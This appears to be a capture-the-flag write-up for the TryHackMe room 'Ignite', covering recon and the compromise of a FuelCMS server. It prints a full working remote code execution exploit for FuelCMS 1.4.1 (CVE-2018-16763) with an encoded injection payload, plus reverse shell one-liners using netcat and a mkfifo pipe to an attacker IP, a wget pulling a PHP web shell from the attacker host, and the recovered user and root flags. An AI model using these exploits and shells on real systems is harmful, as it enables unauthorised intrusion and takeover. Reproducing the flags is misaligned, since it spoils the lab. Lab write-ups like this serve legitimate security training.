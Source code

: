 ```yaml
---
description: 'https://tryhackme.com/room/ignite'
---
```


# Ignite

## INIT

```text
export ignite=10.10.28.158
ping $ignite

echo "10.10.28.158 ignite.thm" >> /etc/hosts
```

## NMAP

```text
nmap -sC -sV -O $ignite
```

![](../.gitbook/assets/image%20%28457%29.png)

## GOBUSTER

```text
gobuster dir -u $ignite -w /usr/share/wordlists/dirb/common.txt -q -t 15 -x php,html,txt
```

![](../.gitbook/assets/image%20%28377%29.png)

## HTTP

![](../.gitbook/assets/image%20%28424%29.png)

![](../.gitbook/assets/image%20%28448%29.png)

![](../.gitbook/assets/image%20%28405%29.png)

{% hint style="info" %}
login: admin

password: admin
{% endhint %}

![](../.gitbook/assets/image%20%28421%29.png)

![](../.gitbook/assets/image%20%28376%29.png)

```text
searchsploit Fuel
searchsploit -p 47138
```

![](../.gitbook/assets/image%20%28443%29.png)

```text
cp /usr/share/exploitdb/exploits/linux/webapps/47138.py ignite.py
```

```text
# Exploit Title: fuelCMS 1.4.1 - Remote Code Execution
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763


import requests
import urllib
import urllib.parse

url = "http://10.10.39.95"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
        xxxx = input('cmd:')
        burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.parse.quote(xxxx)+"%27%29%2b%27"
        proxy = {"http":"http://127.0.0.1:8080"}
        r = requests.get(burp0_url, proxies=proxy)

        html = "<!DOCTYPE html>"
        htmlcharset = r.text.find(html)

        begin = r.text[0:20]
        dup = find_nth_overlapping(r.text,begin,2)

        print(r.text[0:dup])

```

![](../.gitbook/assets/image%20%28385%29.png)

```text
nc -e /bin/sh 10.14.4.204 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.4.204 4444 >/tmp
```

![](../.gitbook/assets/image%20%28417%29.png)

```text
cmd:bash shell.sh
```

![](../.gitbook/assets/image%20%28440%29.png)

```text
python3 ignite.py
wget http://10.14.4.204:8000/phpbash.php
```

![](../.gitbook/assets/image%20%28413%29.png)

![](../.gitbook/assets/image%20%28428%29.png)

![](../.gitbook/assets/image%20%28397%29.png)

![](../.gitbook/assets/image%20%28433%29.png)

### User.txt

{% hint style="success" %}
6470e394cbf6dab6a91682cc8585059b
{% endhint %}

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

![](../.gitbook/assets/image%20%28427%29.png)

```text
 cat /var/www/html/fuel/application/config/database.php
```

![](../.gitbook/assets/image%20%28444%29.png)

```text
su -
password: mememe
cat /root/root.txt
```

![](../.gitbook/assets/image%20%28423%29.png)

### Root.txt

{% hint style="success" %}
b9bbcb33e11b80be759c4e844862482d
{% endhint %}

